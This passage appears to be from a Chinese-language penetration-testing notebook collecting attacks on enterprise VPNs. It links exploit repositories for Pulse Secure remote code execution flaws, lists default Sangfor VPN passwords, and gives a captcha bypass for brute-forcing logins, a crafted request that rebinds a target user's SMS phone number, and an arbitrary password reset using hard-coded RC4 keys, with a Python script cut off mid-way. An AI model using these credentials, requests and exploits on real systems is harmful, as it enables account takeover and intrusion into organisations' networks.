 - POC | Payload | exp
    - [projectzeroindia/CVE-2019-11510](https://github.com/projectzeroindia/CVE-2019-11510)

**CVE-2019-11539 Pulse Secure SSL VPN 远程代码执行漏洞**
- POC | Payload | exp
    - [0xDezzy/CVE-2019-11539](https://github.com/0xDezzy/CVE-2019-11539)

#### 深信服 VPN

**常见密码**
```
admin/sangfor@123
sangfor/sangfor
test/test
test1/123456b
```

**口令爆破**
- POC | Payload | exp
    - https://bbs.sangfor.com.cn/forum.php?mod=viewthread&tid=20633
        ```
        用户登录，若多次尝试登录失败会要求输入验证码，若输入错误的验证码，会提示“校验码错误或校验码已过期”；修改登录请求的数据包，清空cookie和验证码字段的值即可绕过验证码，此时提示“用户名或密码错误”。
        /por/login_auth.csp?apiversion=1sangfor/cgi-bin/login.cgi?rnd=
        ```

**短信绕过**
- POC | Payload | exp
    ```
    POST https://路径/por/changetelnum.csp?apiversion=1

    newtel=TARGET_PHONE&sessReq=clusterd&username=TARGET_USERNAME&grpid=0&sessid=0&ip=127.0.0.1
    ```

**任意密码重置**
- POC | Payload | exp
    ```
    某VPN加密算法使用了默认的key,攻击者构利用key构造重置密码数据包从而修改任意用户的密码
    利用:需要登录账号

    M7.6.6R1版本key为20181118

    M7.6.1key为20100720

    POST /por/changepwd.csp

    sessReq=clusterd&sessid=0&str=RC4_STR&len=RC4_STR_LEN(脚本计算后结果)
    ```
    ```py
    from Crypto.Cipher import ARC4
    from binascii import a2b_hex

    def myRC4(data, key):
        rc41= ARC4.new(key)
        encrypted =rc41.encrypt(data)
        return encrypted. encode('hex')

